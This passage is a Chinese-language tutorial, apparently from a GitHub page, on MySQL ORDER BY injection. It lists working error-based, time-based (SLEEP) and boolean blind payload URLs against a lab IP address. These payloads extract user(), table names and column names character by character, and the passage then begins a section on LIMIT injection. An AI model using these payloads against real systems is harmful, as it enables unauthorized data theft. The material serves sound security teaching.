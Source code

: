 ```sql
http://192.168.239.2:81/?order=extractvalue(1,if(1=1,1,user())) 正确
http://192.168.239.2:81/?order=extractvalue(1,if(1=2,1,user())) 错误
```

### 利用时间盲注

```sql
/?order=if(1=1,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test)) 正常响应时间
/?order=if(1=2,1,(SELECT(1)FROM(SELECT(SLEEP(2)))test)) sleep 2秒
```

### 数据猜解

以猜解user()即`root@localhost`为例子，由于只能一位一位猜解；

可以利用`SUBSTR`,`SUBSTRING`,`MID`,以及`left`和`right`可以精准分割出每一位子串；

然后就是比较操作了可以利用`=`,`like`,`regexp`等；

这里要注意`like`是不区分大小写；

通过以下可以得知user()第一位为`r`,ascii码的16进制为0x72

```sql
http://192.168.239.2:81/?order=(select+1+regexp+if(substring(user(),1,1)=0x72,1,0x00)) 正确
http://192.168.239.2:81/?order=(select+1+regexp+if(substring(user(),1,1)=0x71,1,0x00)) 错误
```

**猜解当前数据的表名**

```sql
/?order=(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x67,1,0x00))  正确
/?order=(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x66,1,0x00)) 错误
```

**猜解指定表名中的列名**

```sql
/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x69,1,0x00)) 正常
/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x68,1,0x00)) 错误
```

然后结合Burp去猜解即可~（[参考](https://www.cnblogs.com/icez/p/Mysql-Order-By-Injection-Summary.html)）

知道了原理，用Burp去猜解即可

# limit 注入

**先科普下limit的用法**

```sql
格式：
limit m,n
--m是记录开始的位置，n是取n条数据
limit 0,1
--从第一条开始，取一条数据
```
